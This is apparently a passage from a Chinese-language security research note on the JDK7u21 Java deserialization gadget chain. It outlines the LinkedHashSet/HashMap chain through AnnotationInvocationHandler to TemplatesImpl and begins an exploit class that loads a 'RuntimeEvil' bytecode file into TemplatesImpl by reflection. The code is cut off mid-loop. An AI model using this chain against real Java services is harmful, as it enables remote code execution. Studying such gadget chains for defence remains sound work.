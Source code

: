 ```java
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException
    {
        java.io.FileInputStream fis = new java.io.FileInputStream(Filename);
        java.io.ObjectInputStream ois = new java.io.ObjectInputStream(fis);
        Object obj = ois.readObject();
        ois.close();
        return obj;
    }
}
```

LinedHashSet反序列化链

```java
LinkedHashSet.add()
HashSet.readObject ->
	HashMap.put ->
		AnnotationInvocationHandler.invoke-> hashCodeImpl ->
		AnnotationInvocationHandler.invoke-> equalsImpl ->
			TemplatesImpl.newTransformer
```



### HashMap版

今天在搞ROME HotSwappableTargetSource链的时候突然发现，JDK7U21反序列化链不仅HashMap.put触发了key.equals

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240910204239313.png)

putForCreate也调用了

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240923223431476.png)

而且HashMap.readObject直接调用了putForCreate来还原

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240923223524583.png)

what?直接向HashMap两个put不就完了，还搞什么HashSet

开弄！

```java
package org.exploit.misc;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.shiro.crypto.hash.Hash;

import javax.xml.transform.Templates;
import java.io.IOException;
import java.lang.reflect.*;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.LinkedHashSet;
import java.util.Map;

public class JDK7u21_HashMap {
    public static void main(String[] args) throws Exception {
        byte[] code1 = Files.readAllBytes(Paths.get("E:\\CODE_COLLECT\\Idea_java_ProTest\\my-yso\\target\\classes\\RuntimeEvil.class"));
        TemplatesImpl templatesClass = new TemplatesImpl();
        Field[] fields = templatesClass.getClass().getDeclaredFields();
        for (Field field : fields) {
            field.setAccessible(true);
            if (field.getName().equals("_bytecodes")) {
```